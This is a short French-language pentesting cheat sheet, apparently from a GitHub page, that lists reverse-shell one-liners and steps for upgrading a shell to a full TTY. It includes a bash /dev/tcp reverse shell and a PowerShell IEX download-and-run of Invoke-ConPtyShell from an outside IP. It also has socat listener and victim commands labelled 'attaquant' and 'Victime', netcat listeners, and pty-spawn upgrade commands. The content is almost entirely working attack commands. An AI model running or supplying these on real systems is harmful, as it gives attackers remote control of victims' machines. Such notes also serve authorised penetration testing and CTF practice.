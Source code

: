Bash dans bash est parfois nécessaire?
```bash -c ‘bash -i >& /dev/tcp/192.168.49.168/80 0>&1'```

# Windows
## CONPTYSHELL
Client Side: Windows version >= 10 / 2019 1809 (build >= 10.0.17763)
Server Side: any tcp listener, i.e. netcat
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~powershell
#server
stty raw -echo; (stty size; cat) | nc -lvnp 3001
#client
IEX(IWR http://10.10.14.131/windows/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.10.14.131 3001
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
# Linux
## Socat
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
#attaquant
socat file:`tty`,raw,echo=0 tcp-listen:4444
#Victime
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
## Upgrade
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
script -qc /bin/bash /dev/null
#ou
python3 -c 'import pty; pty.spawn("/bin/bash")'
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Trouver terminal et taille du TTY (rows, collumns)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
#CTRL-Z
echo $TERM
stty -a
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
stty raw -echo
fg
reset
export SHELL=bash && export TERM=xterm-256color
stty rows 24 columns 115
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
